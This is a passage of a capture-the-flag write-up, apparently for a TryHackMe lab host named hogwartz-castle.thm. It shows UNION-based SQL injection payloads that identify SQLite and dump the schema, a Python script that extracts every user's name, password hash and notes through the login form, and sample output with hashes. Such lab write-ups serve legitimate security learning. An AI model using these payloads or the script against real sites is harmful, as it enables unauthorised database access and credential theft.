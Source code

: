 It failed to crack any of the extracted passwords.

Before I wrote my script, I wanted to get a little more information about the database. 

First I figured out which database engine was running. 

```
' UNION SELECT 1, 2, 3, sqlite_version() from users  -- -

{"error":"The password for 1 is incorrect! 3.22.0"}
```

The server was running SQLite. 

Next, I extracted the table information. 

```
' UNION SELECT tbl_name, 2, 3, sql from sqlite_master Limit 0, 1  -- -

{"error":"The password for users is incorrect! CREATE TABLE users(\nname text not null,\npassword text not null,\nadmin int not null,\nnotes text not null)"}
```

There was only one table in the database. I already guessed it's name. The query gave me all four columns it contained. 

I was then ready to write the script to extract all the users. 

```python
import requests

def sendRequest(query):
    data = {'user': query, 'password': ''}
    response = requests.post('http://hogwartz-castle.thm/login', data=data)
    print(response.text)



originalQuery = "' UNION Select 1, 2, 3, name || ' - ' || password || ' - ' || admin || ' - ' || notes  from users Limit POSITION, 1 -- -"
for i in range(40):
    query = originalQuery.replace('POSITION', str(i))
    sendRequest(query)
```

I ran the script to extract all 40 users. They all the same note saying to keep digging except one. 

```
{"error":"The password for 1 is incorrect! Aaliyah Allen - c063c5215b56091327a1f25e38e2d0a5e6db83cceb0ab29cbb0bedd686c18ee5770bfbbfa0a4ac542c8935b0fb63e30ea0bc0408d3523157d840fdfa54ec8dab - 0 -  contact administrator. Congrats on SQL injection... keep digging"}

{"error":"The password for 1 is incorrect! Aaliyah Sanders - dc2a6b9462945b76f333e075be0bc2a9c87407a3577f43ba347043775a0f4b5c1a78026b420a1bf7da84f275606679e17ddc26bceae25dad65ac79645d2573c0 - 0 -  contact administrator. Congrats on SQL injection... keep digging"}

...

{"error":"The password for 1 is incorrect! Harry Turner - b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885 - 0 - My linux username is my first name, and password uses best64"}

....


{"error":"The password for 1 is incorrect! Zoey Gonzales - 134d4410417fb1fc4bcd49abf4133b6de691de1ef0a4cdc3895581c6ad19a93737cd63cb8d177db90bd3c16e41ca04c85d778841e1206193edfebd4d6f028cdb - 0 -  contact administrator. Congrats on SQL injection... keep digging"}
```
